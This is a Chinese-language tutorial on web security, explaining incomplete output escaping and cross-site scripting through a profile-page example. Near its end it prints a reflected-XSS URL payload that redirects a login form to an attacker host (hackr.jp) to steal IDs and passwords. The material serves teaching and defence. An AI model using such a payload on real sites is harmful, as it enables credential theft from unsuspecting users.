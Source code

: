 ![webAttack5](https://pic.xiaohuochai.site/blog/HTTP_webAttack5.png)

### 输出值转义不完全

　　实施Web应用的安全对策可大致分为以下两部分：客户端的验证和Web应用端(服务器端)的验证

　　而Web应用端(服务器端)的验证又包括输入值验证和输出值转义

![webAttack4](https://pic.xiaohuochai.site/blog/HTTP_webAttack4.png)

　　多数情况下采用JavaScript在客户端验证数据。可是在客户端允许篡改数据或关闭JavaScript，不适合将JavaScript验证作为安全的防范对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高UI体验的作用

　　Web应用端的输入值验证按Web应用内的处理则有可能被误认为是具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策

　　从数据库或文件系统、HTML、邮件等输出Web应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害

【跨站脚本攻击】

　　跨站脚本攻击(Cross-Site Scripting，XSS)是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或JavaScript进行的一种攻击

　　动态创建的HTML部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击

　　跨站脚本攻击有可能造成以下影响：利用虚假输入表单骗取用户个人信息；利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求；显示伪造的文章或图片

**跨站脚本攻击案例**

1、在动态生成HTML处发生

　　下面以编辑个人信息页面为例说明跨站脚本攻击。下方界面显示了用户输入的个人信息内容

![webAttack6](https://pic.xiaohuochai.site/blog/HTTP_webAttack6.png)

　　确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口一郎这样的HTML标签的字符串

![webAttack7](https://pic.xiaohuochai.site/blog/HTTP_webAttack7.png)

　　此时的确认界面上，浏览器会把用户输入的&lt;s&gt;解析成HTML标签，然后显示删除线

　　删除线显示出来并不会造成太大的不利后果，但如果换成使用script标签将会如何呢

2、XSS是攻击者利用预先设置的陷阱触发的被动攻击

　　跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱

　　下图网站通过地址栏中URI的查询字段指定ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞

![webAttack8](https://pic.xiaohuochai.site/blog/HTTP_webAttack8.png)

　　充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的URL。并隐藏植入事先准备好的欺诈邮件中或Web页面内，诱使用户去点击该URL

<div class="cnblogs_code">
<pre>http://example.jp/login?ID="&gt;&lt;script&gt;var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";&lt;/script&gt;&lt;span+s="</pre>
</div>

　　浏览器打开该URI后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。当用户在表单内输入ID和密码之后，就会直接发送到攻击者的网站(也就是hackr.jp)，导致个人登录信息被窃取

![webAttack9](https://pic.xiaohuochai.site/blog/HTTP_webAttack9.png)
